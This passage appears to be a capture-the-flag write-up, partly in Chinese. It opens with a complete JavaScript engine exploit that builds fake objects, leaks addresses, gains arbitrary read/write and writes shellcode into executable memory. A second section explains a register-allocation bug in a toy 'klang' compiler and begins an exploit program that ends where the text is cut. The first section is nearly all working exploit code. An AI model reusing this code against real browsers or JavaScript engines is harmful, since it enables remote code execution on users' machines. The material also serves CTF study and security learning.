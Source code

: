 ```plain
let fake1 = {c:1.1, d:2.2};let fake2 = {c:1.1, d:{}};fake2[0] = 1.1;fake2[1] = 1.1;fake2[2] = 1.1;fake2[3] = 1.1;let abuf = new ArrayBuffer(0x10);let bbuf = new BigUint64Array(abuf);let fbuf = new Float64Array(abuf);let ffbuf = new Float64Array(abuf);bbuf[0] = 0x01001800000099f0n-0x0002000000000000n;fake1.c = ffbuf[0];bbuf[0] = 0x0100180600009a60n;fake2[0] = ffbuf[0];obj = {x:1234, y:1234};function print(a) {}function bftrigger(arg, a2) {    for (let i in obj) {        obj = [1];        let out = arg[i];        if (out === a2.x) {            return true;        } else {            return false;        }    }}obj2 = {x:1234, y:1234};function trigger(arg, a2) {    for (let i in obj2) {        obj2 = [1];        let out = arg[i];        a2.x = out;    }}let t2 = {x: {}};trigger(obj, t2);bbuf[0] = 0x00000000_00000000n;for(let i = 0; i < 0x800; i++) {    trigger(fbuf, t2);}let t = {x: {}};bftrigger(obj, t);for(let i = 0; i < 0x800; i++) {    bftrigger(fbuf, t);}function leak(object_to_leak) {    let addr = 0x7f00_0000_0000n;    let to_leak = {x: object_to_leak};    for (let i=0n; i<0xff_ffff_ffffn; i+=0x1000000n) {        let current_addr = addr + i + 0x4f8140n;        if ((i&0xfffffffffn) == 0) {            print(current_addr.toString(16))        }        bbuf[0] = 0xfffe0000_00000000n+current_addr;        let result = bftrigger(fbuf, to_leak);        if (result) {            print('Found the address at: 0x'+ current_addr.toString(16));            return current_addr;        }    }    return 0;}function exp() {    let fake1_addr = leak(fake1);    if (fake1_addr==0) {        return    }    fake1_addr = fake1_addr+0x10n;    bbuf[0] = 0xfffe0000_00000000n+fake1_addr;    trigger(fbuf, t2);    let fake_obj = t2.x.d;    let fake_bf = fake1_addr+0x8n;    bbuf[0] = fake_bf;    fake2[1] = ffbuf[0];    ffbuf[0] = fake_obj[2];    let butterfly_addr = bbuf[0];    print("Leak butterfly addr: 0x" + butterfly_addr.toString(16));    function addrof(obj) {        fake2.d = obj;        ffbuf[0] = fake_obj[4];        return bbuf[0];    }    function read64(addr) {        bbuf[0] = addr;        fake2[1] = ffbuf[0];        ffbuf[0] = fake_obj[0];        let res = bbuf[0];        bbuf[0] = fake_bf;        fake2[1] = ffbuf[0];        return res;    }    function write64(addr, data) {        bbuf[0] = addr;        fake2[1] = ffbuf[0];        bbuf[0] = data;        fake_obj[0] = ffbuf[0];        bbuf[0] = fake_bf;        fake2[1] = ffbuf[0];    }    let addr = addrof(bftrigger);    print(addr.toString(16));    addr = read64(addr+0x18n);    print(addr.toString(16));    addr = read64(addr+0x8n);    print(addr.toString(16));    let rwx = read64(addr+0x10n);    print("Leak RWX addr: 0x" + rwx.toString(16));    let shellcode = [-1.1406995792869598e-244, 7.237521960842062e-308, -1.1399357607410871e-244, 9.780209880692209e+26, -2.6607797970378774e-254, 1.7806249655998242e-22, 3.9690202623744235e+146, 7.34038447708115e+223, 3.3819935e-317, 0];    bbuf[0] = rwx+0xbn;    fake2[1] = ffbuf[0];    shellcode.forEach((sc, i) => {        fake_obj[i] = sc;    });    bftrigger();}exp();while(1){}
```

## klang

题目实现了一个非常简单的编译器，其中存在许多bug。

### 预期解法

通过阅读代码生成的寄存器分配部分可以发现其中的逻辑非常不合理：替换虚拟寄存器时若遇到Spill的情况只将Live interval后半段替换为Spill slot。这样会导致程序控制流在存在backedge的情况下出现错误。利用这个bug可以将array和string类型的变量进行混淆。

#### exploit

exp.klang

```plain
function main() : array x -> int {
    prints("hello");
    x := hack();
    printi(x[0]);
    x[0] := inputi();
    prints("/bin/sh");
    return 0;
}

function hack() : array a, int b, array c, array d, array e, array f, array g, string h, string i -> array {
    a := array_new(4);
    b := 1;
    c := array_new(4); 
    d := array_new(4); 
    e := array_new(4); 
```
